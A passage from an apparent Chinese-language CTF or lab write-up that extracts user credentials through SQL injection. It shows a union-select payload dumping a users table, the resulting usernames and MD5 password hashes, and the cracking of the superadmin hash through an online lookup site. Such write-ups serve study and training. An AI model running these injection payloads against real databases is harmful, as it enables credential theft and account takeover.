 得到列名如下：

```
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,user,pasword,name,address	
```

![image-20220318111236319](https://gitee.com/xxb667/img/raw/master/img/image-20220318111236319.png)

查看表中user,password

```
-1' union select group_concat(user),group_concat(pasword),3 from users#
```

用户名如下：

```
user1
user2
user3
test
superadmin
test1
admin
```

对应的密码如下：

```
5d41402abc4b2a76b9719d911017c592
6269c4f71a55b24bad0f0267d9be5508
0f359740bd1cda994f8b55330c86d845
05a671c66aefea124cc08b76ea6d30bb
2386acb2cf356944177746fc92523983
05a671c66aefea124cc08b76ea6d30bb
e10adc3949ba59abbe56e057f20f883e
```

![image-20220318111411057](https://gitee.com/xxb667/img/raw/master/img/image-20220318111411057.png)

## 2.5 MD5破解密码

```
https://www.somd5.com/
```

破解superadmin的密码

```
2386acb2cf356944177746fc92523983
```

得到的密码如下：

```
Uncrackable
```

![image-20220318111922044](https://gitee.com/xxb667/img/raw/master/img/image-20220318111922044.png)
